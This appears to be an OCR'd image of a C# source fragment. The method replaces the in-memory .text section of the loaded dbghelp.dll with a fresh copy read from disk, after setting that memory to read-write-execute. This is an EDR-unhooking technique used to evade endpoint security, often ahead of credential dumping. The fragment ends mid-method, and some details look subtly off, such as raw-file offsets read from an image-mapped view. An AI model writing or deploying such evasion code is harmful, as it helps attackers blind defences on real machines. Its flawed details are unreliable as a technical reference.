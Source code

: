 ``` cs

    static void FreshCopyDbghelp()
    {
        string dbghelpPath = @"C:\Windows\System32\dbghelp.dll";
        IntPtr hFile = CreateFile(dbghelpPath, GENERIC_READ, FILE_SHARE_READ, IntPtr.Zero, OPEN_EXISTING, 0, IntPtr.Zero);
        if (hFile == IntPtr.Zero)
        {
            Console.WriteLine("Failed to open dbghelp.dll");
            return;
        }

        IntPtr hFileMapping = CreateFileMapping(hFile, IntPtr.Zero, PAGE_READONLY | SEC_IMAGE, 0, 0, null);
        if (hFileMapping == IntPtr.Zero)
        {
            Console.WriteLine("Failed in CreateFileMapping");
            CloseHandle(hFile);
            return;
        }

        IntPtr pMapping = MapViewOfFile(hFileMapping, FILE_MAP_READ, 0, 0, UIntPtr.Zero);
        if (pMapping == IntPtr.Zero)
        {
            int errorCode = Marshal.GetLastWin32Error();
            Console.WriteLine("Failed in MapViewOfFile. Error code: " + errorCode);
            CloseHandle(hFileMapping);
            CloseHandle(hFile);
            return;
        }

        IntPtr hDbghelp = GetModuleHandle("dbghelp.dll");
        IntPtr pDosHeader = pMapping;
        IMAGE_DOS_HEADER idh = (IMAGE_DOS_HEADER)Marshal.PtrToStructure(pDosHeader, typeof(IMAGE_DOS_HEADER));
        IntPtr pNtHeaders = IntPtr.Add(pDosHeader, idh.e_lfanew);
        IMAGE_NT_HEADERS inh = (IMAGE_NT_HEADERS)Marshal.PtrToStructure(pNtHeaders, typeof(IMAGE_NT_HEADERS));

        for (int i = 0; i < inh.FileHeader.NumberOfSections; i++)
        {
            IntPtr pishPtr = IntPtr.Add(pNtHeaders, Marshal.SizeOf(inh) + (i * Marshal.SizeOf(typeof(IMAGE_SECTION_HEADER))));
            IMAGE_SECTION_HEADER pish = (IMAGE_SECTION_HEADER)Marshal.PtrToStructure(pishPtr, typeof(IMAGE_SECTION_HEADER));

            if (Encoding.UTF8.GetString(pish.Name).TrimEnd('\0') == ".text")
            {
                IntPtr textSection = IntPtr.Add(hDbghelp, (int)pish.VirtualAddress);
                uint oldProtect;
                if (!VirtualProtect(textSection, new UIntPtr(pish.Misc), 0x40, out oldProtect))
                {
                    return;
                }

                for (int j = 0; j < pish.Misc; j++)
                {
                    Marshal.WriteByte(textSection, j, Marshal.ReadByte(IntPtr.Add(pMapping, (int)pish.PointerToRawData + j)));
                }

                VirtualProtect(textSection, new UIntPtr(pish.Misc), oldProtect, out oldProtect);
            }
```